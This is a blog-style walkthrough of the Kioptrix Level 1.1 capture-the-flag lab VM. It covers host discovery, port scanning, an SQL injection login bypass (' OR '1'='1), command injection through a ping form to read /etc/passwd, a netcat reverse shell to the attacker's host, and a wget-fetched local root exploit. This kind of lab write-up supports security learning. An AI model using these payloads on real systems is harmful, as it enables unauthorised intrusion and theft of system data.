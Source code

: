 ```yaml
---
layout: post
title: Kioptrix Level 1.1 Walkthrough
---
```

  Time to move on to the next challenge labled "Kioptrix 1.1". The first step is to find the target machines IP address. The attacker uses netdiscover to find the new ip.  

![Image description](/images/kioptrix1.2.1.png)

  The ip of the vulnerable virtual machine is 172.16.158.129. The attacker needed to gather more information about the virtual machine so he used nmap to do a basic scan to see which ports are open and what services are running. 

![Image description](/images/kioptrix1.2.2.png)

  Right away he noticed multiple interesting ports to explore. He decided to start with port 80. Port 80 is commonly used for webhosting so he opened up his web browser then pointed it to 172.16.158.129. The attacker finds a simple login form when he lands on the home page, nothing else too exciting here. The page appears to be used for administrative purposes. Well, lets see what he can do with the login form.

![Image description](/images/kioptrix1.2.3.png)

He was able to log in with a simple SQL injection. 

Login: Admin
Password: ' OR '1'='1

  The attacker is brought to another page that allows the use to ping a machine on the network. I wonder if he can run other commands from the same text entry box? He tried pinging local host with cat of /etc/passwd to see what information the forms would post. 

![Image description](/images/kioptrix1.2.7.png)

  Surprisingly, he was able to display the contents of /etc/passwd for later use. This means that further code could possible be entered in this form. The attacker still needed to obtain root. He decided to see if he could obtain a shell in a similar way that he displayed /etc/passwd.

![Image description](/images/kioptrix1.2.14.png)

  The attacker set up netcat on his host machine to listen for any connections on port 9292 and then entered 127.0.0.1;/usr/local/bin/nc 172.16.158.128 9292 -e '/bin/bash' into the webform. He was able to obtain a shell. However, the attacker still wasnt root.

![Image description](/images/kioptrix1.2.10.png)

  He found a local root exploit but the attacker still needed to download the exploit remotely in Kioptrix. He set up a python simple server to host the exploit.

![Image description](/images/kioptrix1.2.13.png)

Once the exploit was hosted, the attacker simply wget to get the exploit. 

![Image description](/images/kioptrix1.2.12.png)

The attacker was then able to  compile the exploit and run it. Root obtained!

![Image description](/images/kioptrix1.2.11.png)

On to the next challenge!


